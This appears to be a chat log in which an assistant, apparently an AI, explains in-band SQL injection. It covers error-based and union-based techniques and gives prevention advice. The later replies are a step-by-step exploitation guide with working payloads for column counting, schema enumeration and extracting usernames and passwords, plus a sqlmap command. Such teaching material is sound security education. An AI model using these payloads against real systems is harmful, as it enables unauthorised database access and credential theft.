 

# In-Band SQL Injection (SQLi)

In-Band SQL Injection is one of the most common and straightforward types of SQL injection attacks where the attacker uses the same communication channel to both launch the attack and gather results.

## Types of In-Band SQLi:

1. **Error-Based SQLi**:
   - Relies on error messages returned by the database server
   - Attacker intentionally causes errors to extract information
   - Example: `' OR 1=CONVERT(int, (SELECT table_name FROM information_schema.tables))--`

2. **Union-Based SQLi**:
   - Uses the UNION SQL operator to combine results from multiple SELECT statements
   - Requires knowledge of the database structure
   - Example: `' UNION SELECT username, password FROM users--`

## Characteristics:
- Results are returned directly in the application's response
- Easier to exploit than other types (blind SQLi)
- Often used for data extraction

## Prevention:
- Use parameterized queries/prepared statements
- Implement proper error handling (don't show DB errors to users)
- Apply principle of least privilege for DB accounts
- Use web application firewalls (WAFs)

Explain Error Based and Union Based a bit more

 # In-Band SQL Injection: Error-Based and Union-Based

## Error-Based SQL Injection

Error-based SQL injection is a technique where attackers deliberately cause the database to generate error messages that reveal information about the database structure or contents.

**How it works:**
1. The attacker submits malicious input that causes a SQL error
2. The application displays the error message (either directly or in logs)
3. The error contains sensitive information about:
   - Database structure (table names, column names)
   - Database type/version
   - Query syntax that can be exploited further

**Example:**
```sql
' AND 1=CONVERT(int, (SELECT table_name FROM information_schema.tables))--
```
This might return an error like:
```
Conversion failed when converting the nvarchar value 'users' to data type int.
```
Revealing that there's a table called "users".

**Characteristics:**
- Relies on verbose error reporting
- Works even when no data is returned to the user
- Often used for reconnaissance before other attacks

## Union-Based SQL Injection

Union-based SQL injection leverages the UNION SQL operator to combine results from the original query with results from an injected query.

**How it works:**
1. The attacker determines the number of columns in the original query
2. They craft a UNION SELECT statement with matching columns
3. The database combines and returns results from both queries

**Example:**
```sql
' UNION SELECT username, password FROM users--
```

**Key requirements:**
1. Both queries must return the same number of columns
2. Corresponding columns must have compatible data types

**Process for exploitation:**
1. Find vulnerable parameter (through testing with `'` or `"`)
2. Determine number of columns (using ORDER BY or UNION SELECT NULL,...)
3. Identify which columns are displayed in output
4. Craft UNION SELECT to extract desired data

**Example step-by-step:**

1. Test for vulnerability:
   ```sql
   product.php?id=1'
   ```

2. Find number of columns:
   ```sql
   product.php?id=1 ORDER BY 5-- 
   ```
   Increase number until you get an error (error at 5 means 4 columns)

3. Confirm with UNION:
   ```sql
   product.php?id=-1 UNION SELECT NULL,NULL,NULL,NULL--
   ```

4. Identify displayed columns by replacing NULLs one by one:
  continue from step-by step

 # Continuing Step-by-Step Guide for In-Band SQL Injection (01-In-Band-SQLi)

## Step 4: Identifying Vulnerable Parameters
1. **Test all input fields**: Try basic SQL injection payloads in:
   - URL parameters (e.g., `?id=1`)
   - Form fields (login/search)
   - HTTP headers (User-Agent, Referer)

2. **Common vulnerable patterns**:
   ```sql
   ' OR 1=1 --
   " OR 1=1 --
   1' ORDER BY 1--
   1' UNION SELECT null--
   ```

## Step 5: Determining Database Structure
1. **Find number of columns**:
   ```sql
   ' ORDER BY 5-- 
   ```
   Increase number until error occurs to find column count

2. **Identify useful columns**:
   ```sql
   ' UNION SELECT 1,2,3,4,5--
   ```
   Note which numbers appear in output

## Step 6: Extracting Data
1. **Get database version** (replace visible column number):
   ```sql
   ' UNION SELECT 1,@@version,3,4,5--
   ```

2. **List tables**:
   ```sql
   ' UNION SELECT 1,table_name,3,4,5 FROM information_schema.tables--
   ```

3. **Extract column names from interesting tables**:
   ```sql
   ' UNION SELECT 1,column_name,3,4,5 FROM information_schema.columns WHERE table_name='users'--
   ```

## Step 7: Retrieving Sensitive Data
```sql
' UNION SELECT 1,username||':'||password,3,4,5 FROM users--
```

## Step 8: Automated Tools (Optional)
Consider using sqlmap for more efficient exploitation:
```bash
sqlmap -u "http://example.com/page?id=1" --dbs --batch
```

Would you like me to elaborate on any particular step or provide more specific examples for a certain database type?